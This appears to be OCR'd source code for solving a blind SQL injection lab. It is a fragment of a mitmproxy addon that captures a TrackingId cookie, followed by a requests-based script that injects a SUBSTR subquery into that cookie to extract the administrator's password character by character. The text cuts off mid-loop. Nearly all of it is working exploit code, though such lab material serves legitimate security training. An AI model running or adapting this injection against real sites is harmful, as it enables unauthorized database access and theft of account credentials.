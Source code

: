 ```python
            if self.tracking_id == "":
                self.tracking_id = flow.request.cookies["TrackingId"]
            self.update_json(self.password, self.password_length)
            print("Hit!")

addons = [AdministratorPassword()]

# run mitmproxy with the following command
# mitmproxy -s mitmproxy-addon.py
```

requests.py

```python
import requests, urllib3
import urllib.parse
import json
from time import sleep
import os
import sys
from string import printable

urllib3.disable_warnings()

class BlindSQLiConditional:

    def __init__(self):
        # get command line arguments
        self.args = sys.argv
        self.data_file = 'sqli-blind-conditional-request_data.json'
        self.request_data = {}
        # check if file exists
        if not os.path.isfile(self.data_file):
            print(f"🕚 Wating for file {self.data_file} to be created...")
            sleep(10)
        print("📝 Updating from JSON file")
        with open(self.data_file) as f:
            content = f.read()
            self.request_data = json.loads(content)
        self.url = self.args[1]
        self.cookies = {}
        for key in self.request_data["cookies"].keys():
            self.cookies[key] = self.request_data["cookies"][key]
        self.tracking_id = self.request_data["tracking_id"]
        self.proxies = {
            "https": "https://0.0.0.0:8088"
        }
        self.req = requests.Session()
        self.password = ""

    def get_password(self, start=1, end=30):
        print("🔮 Determining password")
        first_char = printable[0]
        last_char = printable[-1]
        payload = f"{self.tracking_id}\' AND SUBSTR((SELECT password FROM users WHERE username=\'administrator\'),{start},1)>=\'{first_char}\'--"
        self.cookies["TrackingId"] = payload
        self.cookies["TrackingId"] = urllib.parse.quote(self.cookies["TrackingId"])
        print(f"Trying if there's more characters❓")
        response = self.req.get(self.url, cookies=self.cookies, proxies=self.proxies, verify=False)
        if response.status_code == 200:
            if response.text and "Welcome back!" in response.text:
                print(f"⚖️ There's more characters")
                for z in range(start, end):
```